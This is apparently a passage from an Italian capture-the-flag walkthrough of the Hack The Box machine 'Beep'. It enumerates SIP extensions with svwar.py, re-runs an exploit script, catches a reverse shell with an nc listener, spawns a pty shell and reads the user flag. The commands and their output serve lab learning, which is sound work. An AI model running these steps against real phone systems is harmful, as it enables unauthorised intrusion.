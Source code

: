 ```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# python svwar.py -m INVITE -e100-900 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+

```

-m: specifica un metodo di richiesta
-e: specifica un'estensione o un intervallo di estensione

modifichiamo il valore `estension` con quello trovato e rilanciamo l'exploti

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# python2 18650.py                                         
```

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 32863
whoami
asterisk

```


```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 42249
whoami
asterisk
```

facciamo un upgrade dell shell e ci prendiamo la user flag

```
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ cd ..
cd ..
bash-3.2$ ls
ls
bin   dev  home  lost+found  mnt  proc  sbin     srv  tftpboot  usr
boot  etc  lib   media       opt  root  selinux  sys  tmp       var
bash-3.2$ cd /home
cd /home
bash-3.2$ ls
ls
fanis  spamfilter
bash-3.2$ cd fanis
cd fanis
bash-3.2$ cat user.txt
cat user.txt
9c8aeff7a5376b758fb7d875c949b871
bash-3.2$ 
```
